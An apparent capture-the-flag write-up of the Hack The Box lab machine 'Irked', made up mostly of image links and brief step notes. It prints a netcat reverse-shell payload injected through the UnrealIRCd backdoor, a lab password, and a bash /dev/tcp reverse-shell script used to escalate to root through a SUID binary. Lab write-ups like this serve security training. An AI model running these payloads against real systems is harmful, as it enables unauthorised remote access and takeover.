








# Irked (`10.10.10.117`)

## Summary

## Enumeration


```bash
$ sudo nmap -A -v -p 22,80,111,6697,8067,59054,65534 -Pn -oA allports irked.htb
```


`djmardov@irked.htb`

I see that IRC is running. I connect to it with `HexChat`.



I see that `UnrealIRC 3.2.8.1` is running. I find an exploit for this version.



https://www.exploit-db.com/exploits/13853




## Reverse Shell





`AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.22 443 >/tmp/f`

## Privilege Escalation




`UPupDOWNdownLRlrBAbaSSss`

Can't download or transfer the image file for some reason.... stole this step from a walkthrough.

User password: `Kab6h+m+bbp2J:HG`


I find a non-standard SUID file `/usr/bin/viewuser`. I run it and see the following output.



I drop a reverse shell script in the `/tmp/listusers` location and get a reverse shell as `root`.

```bash
#!/bin/bash
bash -i >&/dev/tcp/10.10.14.22/443 0>&1
```


